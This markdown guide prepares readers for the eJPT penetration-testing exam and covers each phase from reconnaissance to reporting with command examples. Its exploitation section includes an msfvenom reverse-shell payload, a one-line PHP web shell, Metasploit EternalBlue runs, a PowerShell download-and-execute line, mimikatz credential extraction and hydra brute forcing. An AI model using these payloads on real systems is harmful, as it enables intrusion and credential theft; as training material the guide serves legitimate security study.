

# 🎯 eJPT Methodology - Complete Penetration Testing Guide

**A comprehensive methodology guide specifically designed for eJPT v2 exam success, covering the complete penetration testing lifecycle from reconnaissance to reporting with practical examples and real-world scenarios.**

**Location:** `01-theory-foundations/ejpt-methodology.md`

---

## 🎯 What is eJPT Methodology?

The **eJPT (eLearnSecurity Junior Penetration Tester)** methodology is a structured approach to penetration testing that follows industry-standard practices while being specifically tailored for entry-level security professionals. This methodology emphasizes **hands-on practical skills** over theoretical knowledge and mirrors real-world penetration testing scenarios.

### 🔑 Key Principles:
- **Systematic Approach**: Following a logical sequence of testing phases
- **Documentation Focus**: Maintaining detailed records throughout the assessment
- **Practical Application**: Emphasizing tools and techniques used in real engagements
- **Risk-Based Testing**: Prioritizing high-impact vulnerabilities and attack vectors
- **Ethical Standards**: Adhering to legal and ethical guidelines throughout testing

---

## 📦 Core Methodology Overview

The eJPT methodology follows a **6-phase approach** that mirrors industry standards while focusing on practical skills:



### 📊 Time Distribution in eJPT Exam:
| Phase | Time Allocation | Priority Level |
|-------|----------------|----------------|
| Information Gathering | 15% | ⭐⭐⭐ |
| Host Discovery | 10% | ⭐⭐⭐ |
| Port/Service Enumeration | 25% | ⭐⭐⭐ |
| Vulnerability Assessment | 20% | ⭐⭐⭐ |
| Exploitation | 25% | ⭐⭐⭐ |
| Reporting | 5% | ⭐⭐ |

---

## 🔧 Phase 1: Information Gathering & Reconnaissance

### 🎯 Objectives:
- Identify target scope and boundaries
- Gather publicly available information
- Map the external attack surface
- Document initial findings

### 📋 Key Activities:

#### **Passive Reconnaissance:**
```bash
# Domain enumeration
whois target.com
dig target.com ANY
nslookup -type=MX target.com

# Search engine reconnaissance
# Google dorking examples:
# site:target.com filetype:pdf
# site:target.com inurl:admin
# site:target.com intitle:"index of"

# Social media and public records
# Manual review of company websites
# Employee enumeration via LinkedIn
```

#### **Active Reconnaissance:**
```bash
# DNS enumeration
dig @8.8.8.8 target.com AXFR          # Zone transfer attempt
dnsrecon -d target.com -t std         # Standard DNS enumeration

# Subdomain discovery
sublist3r -d target.com               # Passive subdomain discovery

# Technology fingerprinting
whatweb target.com                    # Web technology identification
```

### 🧪 Practical Example:
```bash
# Complete information gathering for target "example.com"
echo "=== Phase 1: Information Gathering ===" > pentest_log.txt
date >> pentest_log.txt

# 1. WHOIS lookup
whois example.com >> pentest_log.txt

# 2. DNS enumeration
dig example.com ANY >> pentest_log.txt

# 3. Technology identification
whatweb example.com >> pentest_log.txt

# 4. Search for subdomains
sublist3r -d example.com -o subdomains.txt
```

### 📝 Documentation Requirements:
- Target scope and IP ranges
- Domain and subdomain mapping
- Technology stack identified
- Potential attack vectors noted

---

## ⚙️ Phase 2: Host Discovery & Network Mapping

### 🎯 Objectives:
- Identify live hosts within scope
- Map network topology
- Determine host operating systems
- Document network architecture

### 📋 Key Activities:

#### **Network Discovery:**
```bash
# Ping sweep for host discovery
nmap -sn 192.168.1.0/24              # Ping scan entire subnet

# ARP scanning (for local networks)
arp-scan -l                          # Local network ARP scan
netdiscover -r 192.168.1.0/24       # Active host discovery

# Advanced host discovery
nmap -PS22,80,443 192.168.1.0/24    # TCP SYN ping on specific ports
nmap -PA80,443 192.168.1.0/24       # TCP ACK ping
```

#### **Operating System Detection:**
```bash
# OS fingerprinting
nmap -O 192.168.1.100                # OS detection
nmap -A 192.168.1.100                # Aggressive scan (OS + services)

# TTL analysis for OS identification
ping -c 1 192.168.1.100              # Check TTL values
# Windows: TTL=128, Linux: TTL=64, Cisco: TTL=255
```

### 🧪 Practical Example:
```bash
# Complete host discovery for network 192.168.1.0/24
echo "=== Phase 2: Host Discovery ===" >> pentest_log.txt

# 1. Quick ping sweep
nmap -sn 192.168.1.0/24 | grep "Nmap scan report" > live_hosts.txt

# 2. Detailed host analysis for each live host
for host in $(cat live_hosts.txt | awk '{print $5}'); do
    echo "Scanning $host..." >> pentest_log.txt
    nmap -O -sV $host >> pentest_log.txt
done

# 3. Network topology mapping
nmap --traceroute 192.168.1.1 >> pentest_log.txt
```

### 📊 Host Discovery Techniques Comparison:

| Technique | Speed | Stealth | Accuracy | eJPT Usage |
|-----------|-------|---------|----------|------------|
| Ping Sweep | ⭐⭐⭐ | ⭐⭐ | ⭐⭐ | High |
| ARP Scan | ⭐⭐ | ⭐⭐⭐ | ⭐⭐⭐ | High |
| TCP SYN | ⭐⭐ | ⭐⭐ | ⭐⭐⭐ | Medium |
| UDP Scan | ⭐ | ⭐⭐ | ⭐⭐ | Low |

---

## 🌐 Phase 3: Port Scanning & Service Enumeration

### 🎯 Objectives:
- Identify open ports and services
- Determine service versions
- Enumerate service-specific information
- Map attack surface per host

### 📋 Key Activities:

#### **Port Scanning Strategy:**
```bash
# 1. Quick port scan (top 1000 ports)
nmap -T4 -F 192.168.1.100

# 2. Comprehensive TCP scan
nmap -sS -p- 192.168.1.100           # Full TCP port range

# 3. UDP service discovery
nmap -sU --top-ports 100 192.168.1.100

# 4. Service version detection
nmap -sV -p 22,80,443,445 192.168.1.100

# 5. Aggressive enumeration
nmap -A -p 22,80,443,445 192.168.1.100
```

#### **Service-Specific Enumeration:**

**HTTP/HTTPS (Ports 80, 443, 8080):**
```bash
# Web server identification
whatweb http://192.168.1.100
curl -I http://192.168.1.100         # HTTP headers

# Directory enumeration
gobuster dir -u http://192.168.1.100 -w /usr/share/wordlists/dirb/common.txt
dirb http://192.168.1.100            # Alternative directory brute-force

# Web vulnerability scanning
nikto -h http://192.168.1.100        # Web vulnerability scanner
```

**SSH (Port 22):**
```bash
# SSH version and algorithms
ssh -v 192.168.1.100                 # Verbose connection attempt
nmap --script ssh2-enum-algos 192.168.1.100

# SSH brute force (if authorized)
hydra -L users.txt -P passwords.txt ssh://192.168.1.100
```

**SMB (Ports 139, 445):**
```bash
# SMB enumeration
smbclient -L //192.168.1.100         # List SMB shares
enum4linux 192.168.1.100             # Comprehensive SMB enumeration

# SMB null session testing
smbclient //192.168.1.100/share$ -U "" -N
```

**FTP (Port 21):**
```bash
# FTP banner grabbing
telnet 192.168.1.100 21

# Anonymous FTP testing
ftp 192.168.1.100
# Login: anonymous / anonymous

# FTP enumeration with nmap
nmap --script ftp-* 192.168.1.100
```

### 🧪 Practical Example - Complete Service Enumeration:
```bash
#!/bin/bash
# Complete service enumeration script
TARGET="192.168.1.100"

echo "=== Phase 3: Service Enumeration for $TARGET ===" >> pentest_log.txt

# 1. Quick port scan
echo "--- Quick Port Scan ---" >> pentest_log.txt
nmap -T4 -F $TARGET >> pentest_log.txt

# 2. Service version detection
echo "--- Service Version Detection ---" >> pentest_log.txt
nmap -sV $TARGET >> pentest_log.txt

# 3. Service-specific enumeration
OPEN_PORTS=$(nmap -T4 -F $TARGET | grep open | awk '{print $1}' | cut -d'/' -f1)

for port in $OPEN_PORTS; do
    case $port in
        80|443|8080)
            echo "--- HTTP Enumeration on port $port ---" >> pentest_log.txt
            whatweb http://$TARGET:$port >> pentest_log.txt
            gobuster dir -u http://$TARGET:$port -w /usr/share/wordlists/dirb/small.txt >> pentest_log.txt
            ;;
        21)
            echo "--- FTP Enumeration on port $port ---" >> pentest_log.txt
            nmap --script ftp-anon $TARGET >> pentest_log.txt
            ;;
        22)
            echo "--- SSH Enumeration on port $port ---" >> pentest_log.txt
            nmap --script ssh2-enum-algos $TARGET >> pentest_log.txt
            ;;
        445)
            echo "--- SMB Enumeration on port $port ---" >> pentest_log.txt
            enum4linux $TARGET >> pentest_log.txt
            ;;
    esac
done
```

---

## 🧪 Phase 4: Vulnerability Assessment

### 🎯 Objectives:
- Identify potential security vulnerabilities
- Assess vulnerability severity and impact
- Prioritize vulnerabilities for exploitation
- Document findings with evidence

### 📋 Key Activities:

#### **Automated Vulnerability Scanning:**
```bash
# Nmap vulnerability scripts
nmap --script vuln 192.168.1.100     # All vulnerability scripts

# Specific vulnerability categories
nmap --script "vuln and safe" 192.168.1.100
nmap --script "default and safe" 192.168.1.100

# Web application vulnerability scanning
nikto -h http://192.168.1.100        # Web server vulnerabilities
```

#### **Manual Vulnerability Testing:**

**Configuration Issues:**
```bash
# Check for default credentials
# Common combinations: admin/admin, root/root, admin/password

# SSL/TLS testing
sslscan 192.168.1.100:443           # SSL/TLS configuration analysis
testssl.sh 192.168.1.100:443        # Comprehensive SSL testing

# Service banner analysis
telnet 192.168.1.100 80             # HTTP banner
telnet 192.168.1.100 21             # FTP banner
```

**Service-Specific Testing:**

**Web Applications:**
```bash
# Directory traversal testing
curl "http://192.168.1.100/../../../../etc/passwd"

# SQL injection testing
sqlmap -u "http://192.168.1.100/login.php" --forms --dbs

# File upload vulnerability testing
# Manual testing through web interface
```

**Network Services:**
```bash
# SMB vulnerability testing
nmap --script smb-vuln-* 192.168.1.100

# SSH vulnerability testing
nmap --script ssh2-enum-algos 192.168.1.100
```

### 🧪 Practical Example - Comprehensive Vulnerability Assessment:
```bash
#!/bin/bash
# Vulnerability assessment script
TARGET="192.168.1.100"

echo "=== Phase 4: Vulnerability Assessment for $TARGET ===" >> pentest_log.txt
date >> pentest_log.txt

# 1. Automated vulnerability scanning
echo "--- Automated Vulnerability Scan ---" >> pentest_log.txt
nmap --script "vuln and safe" $TARGET >> pentest_log.txt

# 2. Service-specific vulnerability testing
echo "--- Service-Specific Vulnerability Testing ---" >> pentest_log.txt

# Check for common web vulnerabilities
if nmap -p 80 $TARGET | grep -q "80/tcp open"; then
    echo "Testing HTTP vulnerabilities..." >> pentest_log.txt
    nikto -h http://$TARGET >> pentest_log.txt
fi

# Check for SMB vulnerabilities
if nmap -p 445 $TARGET | grep -q "445/tcp open"; then
    echo "Testing SMB vulnerabilities..." >> pentest_log.txt
    nmap --script smb-vuln-* $TARGET >> pentest_log.txt
fi

# 3. SSL/TLS testing
if nmap -p 443 $TARGET | grep -q "443/tcp open"; then
    echo "Testing SSL/TLS configuration..." >> pentest_log.txt
    sslscan $TARGET:443 >> pentest_log.txt
fi
```

### 📊 Vulnerability Severity Assessment:

| Severity | CVSS Score | Impact | eJPT Priority | Action Required |
|----------|------------|---------|---------------|-----------------|
| Critical | 9.0-10.0 | System compromise | ⭐⭐⭐ | Immediate exploitation |
| High | 7.0-8.9 | Significant impact | ⭐⭐⭐ | Primary targets |
| Medium | 4.0-6.9 | Moderate impact | ⭐⭐ | Secondary targets |
| Low | 0.1-3.9 | Minimal impact | ⭐ | Documentation only |

---

## 🎯 Phase 5: Exploitation & Post-Exploitation

### 🎯 Objectives:
- Successfully exploit identified vulnerabilities
- Gain initial system access
- Escalate privileges where possible
- Maintain persistent access
- Explore lateral movement opportunities

### 📋 Key Activities:

#### **Initial Access:**

**Web Application Exploitation:**
```bash
# SQL injection exploitation
sqlmap -u "http://192.168.1.100/login.php?id=1" --dbs --batch

# File upload exploitation
# 1. Create malicious file
msfvenom -p php/meterpreter/reverse_tcp LHOST=192.168.1.50 LPORT=4444 -f raw > shell.php

# 2. Upload via vulnerable upload form
# 3. Access uploaded file to trigger shell
```

**Service Exploitation:**
```bash
# Metasploit framework usage
msfconsole
use exploit/windows/smb/ms17_010_eternalblue    # EternalBlue exploit
set RHOSTS 192.168.1.100
set LHOST 192.168.1.50
exploit

# Manual exploitation techniques
# Buffer overflow, command injection, etc.
```

#### **Privilege Escalation:**

**Linux Privilege Escalation:**
```bash
# System enumeration
uname -a                             # Kernel version
cat /etc/passwd                      # User accounts
sudo -l                              # Sudo permissions

# SUID binary enumeration
find / -perm -4000 -type f 2>/dev/null

# Automated privilege escalation
wget https://raw.githubusercontent.com/carlospolop/PEASS-ng/master/linPEAS/linpeas.sh
chmod +x linpeas.sh
./linpeas.sh
```

**Windows Privilege Escalation:**
```bash
# System information
systeminfo                          # System details
whoami /priv                        # Current privileges
net user                            # User accounts

# Automated enumeration
# Transfer and run winPEAS.exe
powershell -ep bypass -c "IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/carlospolop/PEASS-ng/master/winPEAS/winPEASps1/winPEAS.ps1')"
```

#### **Lateral Movement:**
```bash
# Network reconnaissance from compromised host
arp -a                               # ARP table
netstat -an                          # Network connections
route                                # Routing table

# Credential harvesting
# Extract passwords from memory, registry, files
mimikatz                             # Windows credential extraction

# Pivot and tunnel setup
# SSH tunneling, port forwarding
ssh -L 8080:internal_host:80 user@compromised_host
```

### 🧪 Practical Example - Complete Exploitation Chain:
```bash
#!/bin/bash
# Complete exploitation example
echo "=== Phase 5: Exploitation Chain ===" >> pentest_log.txt
date >> pentest_log.txt

# 1. Initial web application testing
TARGET_WEB="http://192.168.1.100"
echo "--- Testing for SQL injection ---" >> pentest_log.txt
sqlmap -u "$TARGET_WEB/login.php?id=1" --batch --dbs >> pentest_log.txt

# 2. File upload exploitation attempt
echo "--- Attempting file upload exploit ---" >> pentest_log.txt
# Create PHP reverse shell
cat > shell.php << EOF
<?php system(\$_GET['cmd']); ?>
EOF

echo "PHP shell created for upload testing" >> pentest_log.txt

# 3. Metasploit exploitation
echo "--- Metasploit exploitation attempt ---" >> pentest_log.txt
msfconsole -x "
use exploit/multi/http/php_cgi_arg_injection;
set RHOSTS 192.168.1.100;
set LHOST 192.168.1.50;
exploit;
exit" >> pentest_log.txt

# 4. Post-exploitation enumeration
echo "--- Post-exploitation commands ---" >> pentest_log.txt
echo "Commands to run after gaining access:" >> pentest_log.txt
echo "  - whoami" >> pentest_log.txt
echo "  - uname -a" >> pentest_log.txt
echo "  - find / -perm -4000 2>/dev/null" >> pentest_log.txt
```

---

## ⚠️ Phase 6: Reporting & Documentation

### 🎯 Objectives:
- Document all findings comprehensively
- Provide clear remediation guidance
- Present technical and executive summaries
- Maintain evidence chain of custody

### 📋 Key Components:

#### **Executive Summary:**
```markdown
## Executive Summary
- **Assessment Overview**: Brief description of the penetration test
- **Key Findings**: High-level summary of critical vulnerabilities
- **Risk Assessment**: Overall security posture evaluation
- **Recommendations**: Priority actions for remediation
```

#### **Technical Findings:**
```markdown
## Technical Findings

### Vulnerability: [Name]
- **Severity**: Critical/High/Medium/Low
- **CVSS Score**: X.X
- **Affected Systems**: List of affected hosts
- **Description**: Detailed vulnerability description
- **Evidence**: Screenshots, command output
- **Impact**: Potential consequences
- **Remediation**: Step-by-step fix instructions
```

#### **Testing Methodology:**
```markdown
## Testing Methodology
- **Scope**: Define what was tested
- **Approach**: Methodology followed
- **Tools Used**: List of tools and versions
- **Timeline**: Testing phases and duration
- **Limitations**: Any constraints or limitations
```

### 🧪 Practical Example - Automated Report Generation:
```bash
#!/bin/bash
# Simple report generator
REPORT_FILE="ejpt_pentest_report_$(date +%Y%m%d).md"

cat > $REPORT_FILE << EOF
# eJPT Penetration Test Report
**Date**: $(date)
**Target**: $TARGET_NETWORK
**Tester**: [Your Name]

## Executive Summary
This penetration test was conducted against the target network $TARGET_NETWORK following eJPT methodology.

### Key Findings:
- **Critical**: $CRITICAL_COUNT vulnerabilities identified
- **High**: $HIGH_COUNT vulnerabilities identified  
- **Medium**: $MEDIUM_COUNT vulnerabilities identified
- **Low**: $LOW_COUNT vulnerabilities identified

## Detailed Findings

### 1. [Vulnerability Name]
**Severity**: Critical
**Affected Host**: $TARGET_HOST
**Description**: [Description from testing]
**Evidence**: 
\`\`\`
[Command output or screenshot]
\`\`\`
**Remediation**: [Specific steps to fix]

## Testing Methodology
The following methodology was used:
1. Information Gathering
2. Host Discovery  
3. Port Scanning
4. Service Enumeration
5. Vulnerability Assessment
6. Exploitation

## Tools Used
- Nmap v7.80
- Metasploit Framework
- Burp Suite
- SQLMap
- Gobuster

## Conclusion
[Summary and recommendations]
EOF

echo "Report generated: $REPORT_FILE"
```

---

## 🎯 eJPT Exam Focus Areas

### 📊 High-Priority Skills for eJPT:

| Skill Area | Exam Weight | Key Tools | Practice Priority |
|------------|-------------|-----------|-------------------|
| Host Discovery | 20% | nmap, netdiscover | ⭐⭐⭐ |
| Port Scanning | 25% | nmap, masscan | ⭐⭐⭐ |
| Service Enumeration | 25% | nmap scripts, manual tools | ⭐⭐⭐ |
| Web App Testing | 15% | gobuster, sqlmap, burp | ⭐⭐⭐ |
| Metasploit Usage | 10% | msfconsole, msfvenom | ⭐⭐ |
| Basic Exploitation | 5% | Various exploit tools | ⭐⭐ |

### 🎯 Essential eJPT Commands:

**Host Discovery:**
```bash
nmap -sn 192.168.1.0/24             # Most important for eJPT
arp-scan -l                         # Local network discovery
```

**Port Scanning:**
```bash
nmap -sS -p- target                 # Full TCP scan
nmap -sU --top-ports 100 target    # UDP scan
nmap -sV -p 1-1000 target          # Service version detection
```

**Service Enumeration:**
```bash
nmap --script "default and safe" target
gobuster dir -u http://target -w /usr/share/wordlists/dirb/common.txt
enum4linux target                   # SMB enumeration
```

**Basic Exploitation:**
```bash
msfconsole                          # Metasploit framework
searchsploit service_name           # Exploit database search
```

### ⏰ Time Management in eJPT Exam:

| Phase | Recommended Time | Key Activities |
|-------|------------------|----------------|
| **Initial Recon** | 30 minutes | Scope understanding, initial scans |
| **Host Discovery** | 45 minutes | Network mapping, live host identification |
| **Service Enum** | 90 minutes | Deep service enumeration |
| **Vulnerability Assessment** | 60 minutes | Vuln scanning, manual testing |
| **Exploitation** | 90 minutes | Exploit attempts, shell access |
| **Flag Collection** | 60 minutes | Navigate systems, collect evidence |
| **Documentation** | 45 minutes | Report writing, screenshot organization |

---

## ⚠️ Common Issues & Troubleshooting

### 🔧 Network Connectivity Issues:
```bash
# Test basic connectivity
ping -c 1 8.8.8.8                  # Internet connectivity
ping -c 1 192.168.1.1              # Gateway connectivity

# Check routing
route -n                            # Linux routing table
netstat -rn                         # Alternative routing check

# DNS issues
nslookup google.com                 # DNS resolution test
cat /etc/resolv.conf                # DNS configuration
```

### 🔧 Tool-Specific Issues:

**Nmap Problems:**
```bash
# Permission issues
sudo nmap -sS target                # Requires root for SYN scan
nmap -sT target                     # TCP connect scan (no root needed)

# Firewall bypass
nmap -f target                      # Fragment packets
nmap -D RND:10 target              # Decoy scan
```

**Metasploit Issues:**
```bash
# Database connection
msfdb init                          # Initialize database
msfdb start                         # Start database
msfdb reinit                        # Reinitialize if corrupted
```

**Web Application Testing:**
```bash
# Certificate issues with HTTPS
curl -k https://target              # Ignore SSL errors
wget --no-check-certificate https://target

# Proxy configuration for Burp
export http_proxy=127.0.0.1:8080
export https_proxy=127.0.0.1:8080
```

---

## 🔗 Integration with Other Tools

### 🔄 Tool Chain Integration:

**Information Gathering → Scanning:**
```bash
# From domain enumeration to host scanning
sublist3r -d target.com -o subdomains.txt
for subdomain in $(cat subdomains.txt); do
    nmap -sV $subdomain >> scan_results.txt
done
```

**Scanning → Exploitation:**
```bash
# From nmap results to Metasploit
nmap -sV -oX scan_results.xml target
db_import scan_results.xml          # Import into Metasploit
hosts                              # View discovered hosts
services                           # View discovered services
```

**Manual → Automated Integration:**
```bash
# From manual testing to automated exploitation
# 1. Manual discovery of web application
gobuster dir -u http://target -w wordlist.txt

# 2. Automated vulnerability testing
nikto -h http://target

# 3. Exploitation framework usage
msfconsole -x "use exploit/multi/http/...; set RHOSTS target; exploit"
```

---

## 📝 Documentation Templates

### 🗂️ Testing Checklist Template:
```markdown
# eJPT Testing Checklist

## Information Gathering
- [ ] WHOIS lookup completed
- [ ] DNS enumeration performed
- [ ] Subdomain discovery attempted
- [ ] Search engine reconnaissance done

## Host Discovery
- [ ] Network range identified
- [ ] Ping sweep performed
- [ ] ARP scan completed (if applicable)
- [ ] Live hosts documented

## Port Scanning
- [ ] TCP port scan (1-65535)
- [ ] UDP port scan (top 1000)
- [ ] Service version detection
- [ ] OS fingerprinting

## Service Enumeration
- [ ] HTTP/HTTPS enumeration
- [ ] SSH enumeration
- [ ] SMB enumeration
- [ ] FTP enumeration
- [ ] Database enumeration

## Vulnerability Assessment
- [ ] Automated vulnerability scanning
- [ ] Manual vulnerability testing
- [ ] Configuration review
- [ ] Default credential testing

## Exploitation
- [ ] Web application exploitation
- [ ] Network service exploitation
- [ ] Privilege escalation attempts
- [ ] Lateral movement exploration

## Documentation
- [ ] Screenshots captured
- [ ] Commands documented
- [ ] Evidence collected
- [ ] Report structure prepared
```

### 📋 Finding Documentation Template:
```markdown
## Vulnerability Finding Template

### Finding ID: [EJPT-001]
**Title**: [Descriptive vulnerability name]
**Severity**: [Critical/High/Medium/Low]
**CVSS Score**: [X.X]

### Affected Systems:
- Host: [IP address]
- Service: [Service name and port]
- URL: [If web application]

### Description:
[Detailed description of the vulnerability]

### Proof of Concept:
```bash
[Commands used to exploit]
```

### Evidence:
[Screenshots or command output]

### Impact:
[What an attacker could achieve]

### Remediation:
[Specific steps to fix the vulnerability]

### References:
- [CVE references]
- [Vendor advisories]
- [Additional resources]
```

---

## 🎯 Final eJPT Success Tips

### 📚 Key Study Areas:
1. **Master Nmap**: This is your most important tool
2. **Understand Web Applications**: Directory enumeration, basic SQLi
3. **Know Metasploit Basics**: Console navigation, basic exploits
4. **Practice Linux Command Line**: Essential for post-exploitation
5. **Learn Basic Scripting**: Automate repetitive tasks

### ⚡ Exam Day Strategy:
1. **Read the Letter of Engagement carefully**
2. **Document everything as you go**
3. **Take screenshots of successful commands**
4. **Don't spend too long on one target**
5. **Focus on finding flags rather than perfect exploitation**

### 🔄 Continuous Improvement:
- **Practice on HackTheBox/TryHackMe**
- **Set up your own lab environment**
- **Study real penetration testing reports**
- **Join cybersecurity communities**
- **Keep learning new tools and techniques**

---

**Remember**: The eJPT methodology is about practical application. Focus on hands-on practice and understanding the logical flow from reconnaissance through exploitation. Good documentation and systematic approach will lead to success in both the exam and real-world penetration testing scenarios.

---

*This methodology guide is designed specifically for eJPT v2 preparation and follows industry-standard penetration testing practices adapted for entry-level professionals.*
